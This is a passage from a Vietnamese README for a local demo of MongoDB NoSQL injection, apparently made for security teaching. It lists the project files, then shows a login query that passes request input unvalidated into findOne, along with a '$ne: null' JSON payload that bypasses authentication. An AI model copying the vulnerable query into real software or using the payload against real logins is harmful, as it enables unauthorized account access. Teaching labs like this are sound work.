 ```
========================================
```

### Bước 8: Truy cập ứng dụng

Mở trình duyệt và truy cập:
```
http://localhost:3000
```

---

## 📁 CẤU TRÚC PROJECT

```
mongodb-nosql-injection-demo/
│
├── package.json          # NPM configuration
├── server.js             # Express server với endpoints
├── setup-db.js           # Script khởi tạo database
├── README.md             # File này
│
└── public/
    └── index.html        # Giao diện web demo
```

---

## 🔓 CÁC LỖ HỔNG ĐƯỢC DEMO

### 1. **NoSQL Injection - Authentication Bypass**

**Endpoint:** `POST /api/login`

**Vulnerable Code:**
```javascript
const user = await db.collection('users').findOne({
  username: username,  // ← Không validate!
  password: password   // ← Chấp nhận objects!
});
```

**Exploit:**
```json
{
  "username": {"$ne": null},
  "password": {"$ne": null}
}
```

**Kết quả:** Bypass authentication, đăng nhập thành công mà không cần biết password!

---
